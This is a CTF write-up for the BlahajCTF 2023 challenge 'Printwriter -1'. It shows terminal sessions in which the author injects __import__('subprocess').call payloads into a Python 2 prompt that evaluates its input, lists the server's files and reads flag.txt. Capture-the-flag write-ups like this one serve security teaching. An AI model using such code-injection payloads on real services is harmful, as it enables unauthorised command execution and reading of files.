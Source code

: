 ```yaml
---
title: Printwriter -1
date: 2023-12-05
tags:
- misc
- author-tomato
categories: BlahajCTF 2023
---
```


solved by {% person tomato %}

> I'm not very good at C, so I coded this challenge in Python. Don't have Python 3 yet though, so I used Python 2... At least it can't be pwned!

I first noticed that there is some template injection (? because like we aren't using any templates here, idk what to call it):


{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/blahaj<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? 2*2
rwandi
rwandi
rwandi
rwandi</DIV>
{% endccb %}

So we can get shell simply with:
```py
__import__("subprocess").call()
```

{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/nightmare/Stack_Buffer_Overflow<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? <span class="code-highlight">__import__("subprocess").call(["ls","-l"])</span>
total 8
<span class="code-highlight">-rw-r--r-- 1 root root  45 Dec  2 06:54 flag.txt</span>
-rwxr-xr-x 1 root root 267 Dec  2 06:54 run
Print what? rwandi
How many times? <span class="code-highlight">__import__("subprocess").call(["cat","flag.txt"])</span>
<span class="diff-highlight-add">blahaj{0uT_w17h_th3_N3W_4Nd_1N_w1tH_the_Old}</span></DIV>
{% endccb %}
